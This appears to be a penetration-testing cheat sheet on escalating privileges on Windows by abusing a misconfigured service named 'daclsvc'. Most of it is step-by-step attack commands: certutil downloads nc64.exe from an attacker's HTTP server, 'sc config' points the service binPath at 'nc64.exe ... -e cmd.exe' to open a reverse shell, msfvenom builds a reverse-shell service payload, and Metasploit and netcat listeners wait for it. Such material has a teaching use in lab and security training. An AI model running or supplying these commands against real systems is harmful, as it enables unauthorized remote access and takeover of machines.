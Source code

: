 ```yaml
---
legal-banner: true
---
```


### **EXPLOITING INSECURE SERVICE WITH NETCAT**

1.  Host the nc binary Using Python:  
    `python3 -m http.server 8000`  
    
    ![](../../../../img/Windows-Environment/60.png)

    **NOTE:** Kali has a builtin copy of nc.exe located in the /usr/share/windows-resources/binaries/ directory.
    
2.  Transfer the script to the target machine using certutil:  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/nc64.exe nc64.exe`

    ![](../../../../img/Windows-Environment/61.png)
    
3.  To exploit a service, place nc.exe in the C:\\temp folder and modify the service binpath with this command:  
    `sc config daclsvc binPath= "C:\temp\nc64.exe [IP-ADRESS] 443 -e C:\windows\system32\cmd.exe"`

    ![](../../../../img/Windows-Environment/62.png)
    
4.  Now, all we have to do is set up a netcat listener on our attacker machine on port 443 and then start the service.  
    `sc start daclsvc`

    ![](../../../../img/Windows-Environment/63.png)
    

### **EXPLOITING INSECURE SERVICE WITH METASPLOIT**

3.  Alternatively, we can use msfvenom to create a reverse shell payload  
    `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=[PORT] -f exe-service -o reverse.exe`

    ![](../../../../img/Windows-Environment/64.png)

    **NOTE:** After creating the reverse shell payload, transfer it to the target machine.
    
4.  Start your listener on the attacking machine  
    `msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT [PORT]; run"`

    ![](../../../../img/Windows-Environment/65.png)
    
5.  Alternatively, we can start a listener using nc:  
    `sudo rlwrap -cAr nc -lvnp 1338`
    
6.  Now, all we have to do is Modify the Service Binary Path and start the service.  
    `sc config daclsvc binPath= "C:\temp\reverse.exe"` , `sc stop daclsvc` , `sc start daclsvc` or `net start daclsvc`

    ![](../../../../img/Windows-Environment/66.png)